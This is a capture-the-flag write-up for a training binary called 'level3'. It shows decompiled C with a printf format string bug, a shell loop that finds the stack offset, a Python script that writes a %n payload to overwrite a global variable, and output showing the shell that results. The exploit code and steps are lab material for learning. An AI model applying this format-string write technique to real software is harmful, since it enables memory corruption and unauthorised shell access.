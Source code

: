 <h1 align="center"> LEVEL 3 </h1>

## 🔍 Analysis of Decompiled [level3](./source.c)
The target is a vulnerable binary named `level3`. Our goal is to:

- Exploit a **format string vulnerability** in `printf()`
- Overwrite a global variable `m` with the value `0x40`
- Satisfy the condition `if (m == 0x40)` to execute `system("/bin/sh")`


### 🔐 Binary Protections

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3


$ cat /proc/sys/kernel/randomize_va_space
0
```
```C
void v(void) {
  char local_20c[520];
  fgets(local_20c, 0x200, stdin);
  printf(local_20c);  // ⚠️ format string vulnerability
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
}
```
## 💥 Exploit 
Leak stack contents to determine the correct format string offset
Use %n to write `0x40` to the address of the global variable m
Trigger the condition and gain a shell

###  Step 1: Find the Address of m

```
(gdb) p &m
$1 = (int *) 0x0804988c
```
### Step 2: Discover Format String Offset

```SH
for i in $(seq 1 40); do
  python -c "print('AAAA' + ' %%%d\$x' % $i)" | ./level3
done
AAAA 200
AAAA b7fd1ac0
AAAA b7ff37d0
AAAA 41414141
AAAA 24352520
...
```
Look for `41414141` in the output. appears at `%4$x`, that means the offset is 4.

The string `' %%%d\$x'` % $i

In Python string formatting with %, the %d is replaced by the value of $i (a shell variable).

`' %%%d\$x'` becomes:
- %% → a literal % in the string.
- %d → replaced by the number $i.
- \$x → literally $x.

So if $i = 4, it becomes: `%4$x`

This is a format specifier for printf in C. It means: “print the 4th argument as a hexadecimal number.”

### Step 3: Exploit Script
```PY
import struct
import sys

if len(sys.argv) != 2:
    print("Usage: python exploit.py <offset>")
    sys.exit(1)

offset = int(sys.argv[1])

m_addr = struct.pack("<I", 0x0804988c)  # Address of 'm'
target_val = 0x40  # Decimal 64

written = len(m_addr)
padding = target_val - written
if padding < 0:
    padding += 256

fmt = "%%%dx%%%d$n" % (padding, offset) #"%%%dx%%%d$n" % (60, 4)   --> "%60x%4$n"
payload = m_addr + fmt.encode("ascii")

with open("payload.txt", "wb") as f:
    f.write(payload)

print("Wrote payload with offset %d" % offset)

```
### Step 4: Execute the Exploit
```
python exploit.py 4 
(cat payload.txt; cat) | ./level3
Wait what?!
$ whoami
level4
```
